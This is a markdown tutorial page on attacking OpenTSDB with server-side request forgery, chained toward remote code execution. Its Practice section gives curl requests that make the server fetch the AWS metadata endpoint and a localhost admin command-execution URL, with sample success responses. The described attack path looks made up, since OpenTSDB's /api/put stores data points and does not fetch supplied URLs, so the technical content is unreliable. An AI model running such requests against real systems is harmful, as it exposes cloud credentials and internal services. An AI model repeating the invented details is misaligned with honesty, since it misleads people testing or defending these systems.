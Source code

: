 ```yaml
---
title: 'OpenTSDB Exploitation: SSRF and RCE Techniques'
description: Learn how to exploit OpenTSDB using SSRF for service interaction and
  remote code execution.
keywords:
- OpenTSDB
- SSRF
- Remote Code Execution
- HTTP API
- Server-Side Request Forgery
- Cybersecurity
- Vulnerability Exploitation
---
```


# OpenTSDB

## Context

This article demonstrates the exploitation of OpenTSDB via Server-Side Request Forgery (SSRF) to interact with internal HTTP services and potentially achieve remote code execution (RCE). It assumes that the reader is familiar with HTTP protocol fundamentals, server-client architecture, and general SSRF exploitation techniques.

## Theory

### OpenTSDB HTTP API and Query Handling

OpenTSDB is a distributed time series database that provides an HTTP API for querying and managing data. Certain endpoints within OpenTSDB accept user-supplied URLs, which are used for importing data or interacting with plugins. This functionality presents a vulnerability if the input is not properly validated. An attacker could exploit this to perform SSRF attacks, thereby making the OpenTSDB server request arbitrary HTTP resources.

**Vulnerability Model:** The lack of stringent validation of user-supplied URLs turns these endpoints into potential SSRF vectors. Attackers can use these vectors to interact with internal or external HTTP services, which should not normally be accessible to the attacker.

### SSRF Exploitation in OpenTSDB

**Attack Sequence:** An attacker can craft a malicious HTTP request that triggers OpenTSDB to fetch a resource from a specified URL. If the URL is internal or points to an otherwise restricted service, the SSRF allows the attacker to access these services or execute further attacks.

**Protocol Weakness:** The vulnerability often arises because OpenTSDB does not enforce proper URL scheme or host filtering. This omission enables attackers to craft requests that access internal HTTP services or sensitive metadata endpoints that are not intended to be exposed externally.

### Remote Code Execution via SSRF

SSRF can be a stepping stone to remote code execution. By leveraging SSRF to interact with internal services—such as cloud metadata APIs or under-secured admin panels—attackers can trigger secondary vulnerabilities that lead to RCE.

```mermaid
flowchart TD
    A[Attacker crafts malicious URL] --> B[OpenTSDB HTTP API endpoint]
    B --> C[OpenTSDB server issues HTTP request]
    C --> D[Internal HTTP service or metadata endpoint]
    D --> E[Potential RCE or sensitive data exposure]
```

## Practice

### SSRF Exploitation via OpenTSDB HTTP API

To perform SSRF exploitation using the OpenTSDB HTTP API, an attacker may execute the following steps:

1. **Trigger SSRF by submitting a malicious request:**

    ```bash
    curl -X POST 'http://target-opentsdb:4242/api/put' -d '{"url":"http://169.254.169.254/latest/meta-data/"}'
    ```

    This request references the AWS metadata endpoint, aiming to retrieve sensitive information stored in the cloud environment.

2. **Observation of internal metadata:**

    If successful, the response may look like:

    ```text
    {"status":"success","data":"<metadata response>"}
    ```

    This result indicates that SSRF is successful, allowing access to internal metadata that is not exposed to external networks.

### Chaining SSRF to Achieve Remote Code Execution

The exploitation chain can be extended to achieve remote code execution by targeting services with command execution vulnerabilities:

1. **Target an internal admin interface:**

    ```bash
    curl -X POST 'http://target-opentsdb:4242/api/put' -d '{"url":"http://localhost:8080/admin/exec?cmd=whoami"}'
    ```

    This assumes the attacker has identified an admin interface vulnerable to command injection.

2. **Confirmation of command execution:**

    The resulting output might be:

    ```text
    {"status":"success","data":"opentsdb"}
    ```

    This output demonstrates that SSRF can facilitate command execution and provide a path to RCE if the vulnerable endpoint is present.

## Tools

- **curl**
- **Burp Suite**